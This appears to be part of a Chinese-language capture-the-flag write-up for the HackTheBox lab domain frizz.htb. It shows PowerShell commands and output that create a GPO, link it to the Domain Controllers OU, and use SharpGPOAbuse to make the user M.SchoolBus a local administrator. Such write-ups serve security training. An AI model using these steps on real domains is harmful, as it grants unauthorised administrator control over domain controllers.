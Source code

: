 注意！！！！

这个提权的预期应该是通过**M.schoolbus**来进行**GPO abuse**，但是我的**Bloodhound**和**Sharphound**都没有发现这权限。因此以下仅仅作为参考。

- [antonioCoco/RunasCs: RunasCs - Csharp and open version of windows builtin runas.exe](https://github.com/antonioCoco/RunasCs)

- [byronkg/SharpGPOAbuse: Precompiled executable](https://github.com/byronkg/SharpGPOAbuse)

```
PS C:\Temp> New-GPO -Name pain | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes

GpoId       : f97a73ca-2745-4375-857c-4ee8fe1b0256
DisplayName : pain
Enabled     : True
Enforced    : False
Target      : OU=Domain Controllers,DC=frizz,DC=htb
Order       : 2
```

- 创建名为 pain 的 GPO。

- 将其链接到 FRIZZ.HTB 域中的 DOMAIN CONTROLLERS 组织单元。

- 确保该链接已启用，使该 GPO 在该 OU 内的所有对象（即域控制器）上生效。

```
PS C:\Temp> Get-GPO -All | Select DisplayName,Id                                                            

DisplayName                       Id
----------- --
Default Domain Policy             31b2f340-016d-11d2-945f-00c04fb984f9
Default Domain Controllers Policy 6ac1786c-016f-11d2-945f-00c04fb984f9
pain                              8f13d279-2073-4d35-be51-f6adcf66f25c

PS C:\Temp> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName pain                    
[+] Domain = frizz.htb
[+] Domain Controller = frizzdc.frizz.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=frizz,DC=htb
[+] SID Value of M.SchoolBus = S-1-5-21-2386970044-1145388522-2932701813-1106
[+] GUID of "pain" is: {8F13D279-2073-4D35-BE51-F6ADCF66F25C}
[+] Creating file \\frizz.htb\SysVol\frizz.htb\Policies\{8F13D279-2073-4D35-BE51-F6ADCF66F25C}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```

接下来刷新**GPO**

```
PS C:\Temp> gpupdate /force                     
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.
```
